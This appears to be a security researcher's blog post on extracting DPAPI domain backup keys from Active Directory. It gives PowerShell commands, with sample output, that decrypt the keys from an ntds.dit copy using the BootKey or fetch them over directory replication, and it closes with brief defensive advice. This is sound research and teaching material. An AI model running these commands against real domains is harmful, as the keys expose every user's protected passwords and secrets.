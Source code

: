 ```yaml
---
id: 6191
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
---
```

<h3 style="text-align: justify;">
  Introduction
</h3>

<p style="text-align: justify;">
  The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an Active Directory domain environment, a&nbsp;copy of&nbsp;user&#8217;s master key is&nbsp;encrypted with a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the user, the&nbsp;user&#8217;s access to&nbsp;the master key is&nbsp;automatically restored using the&nbsp;backup key.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Mimikatz Method
</h3>

<p style="text-align: justify;">
  Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it even&nbsp;works remotely:
</p>

[<img class="aligncenter wp-image-6211 size-full" src="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png" alt="Mimikatz DPAPI Backup Keys" width="741" height="331" srcset="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png 741w, https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys-300x134.png 300w" sizes="(max-width: 741px) 100vw, 741px" />](https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png)

### Key Storage

<p style="text-align: justify;">
  I have taken Benjamin&#8217;s research one step further and&nbsp;I&nbsp;can now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are physically stored:
</p>

[<img class="aligncenter wp-image-6231 size-full" src="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png" alt="Backup Key Storage" width="643" height="254" srcset="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png 643w, https://www.dsinternals.com/wp-content/uploads/backupkeys_storage-300x119.png 300w" sizes="(max-width: 643px) 100vw, 643px" />](https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png)

<p style="text-align: justify;">
  The&nbsp;keys are stored in&nbsp;the&nbsp;<strong>currentValue</strong> attribute of&nbsp;objects whose names begin with <strong>BCKUPKEY</strong> and&nbsp;are of&nbsp;class<strong> secret</strong>. The&nbsp;<strong>BCKUPKEY_PREFERRED Secret</strong> and&nbsp;<strong>BCKUPKEY_P Secret</strong> objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Database Dump Method
</h3>

<p style="text-align: justify;">
  The&nbsp;<strong>Get-BootKey</strong>, <strong>Get-ADDBBackupKey</strong> and&nbsp;<strong>Save-DPAPIBlob</strong> cmdlets from&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a> can be used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:
</p>

<pre class="lang:ps decode:true"># We need to&nbsp;get the&nbsp;BootKey from&nbsp;the&nbsp;SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

&lt;#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#&gt;

# Now&nbsp;we can decrypt the&nbsp;DPAPI backup keys from&nbsp;the&nbsp;database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

&lt;#
Output:

Type&nbsp;: LegacyKey
DistinguishedName&nbsp;: CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {77, 138, 250, 6...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: PreferredLegacyKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {14, 178, 130, 120...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: RSAKey
DistinguishedName&nbsp;: CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {48, 130, 9, 186...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type&nbsp;: PreferredRSAKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {62, 106, 197, 177...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#&gt;

# In&nbsp;most cases, we just want to&nbsp;export these keys to&nbsp;the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in&nbsp;the&nbsp;Keys directory:

(dir .\Keys).Name

&lt;#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#&gt;</pre>

Note that&nbsp;mimikatz would name these files similarly.

### The&nbsp;DRSR Method

<p style="text-align: justify;">
  The&nbsp;same result can be achieved by&nbsp;communicating with the&nbsp;Directory Replication Service using the&nbsp;<strong>Get-ADReplBackupKey</strong> cmdlet:
</p>

<pre class="lang:ps decode:true">Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys</pre>

### Defense

I&nbsp;am already starting to&nbsp;repeat myself:

<li style="text-align: justify;">
  Restrict access to&nbsp;domain controller backups.
</li>
<li style="text-align: justify;">
  Be cautious when&nbsp;delegating the&nbsp;&#8220;Replicating Directory Changes All&#8221; right.
</li>

&nbsp;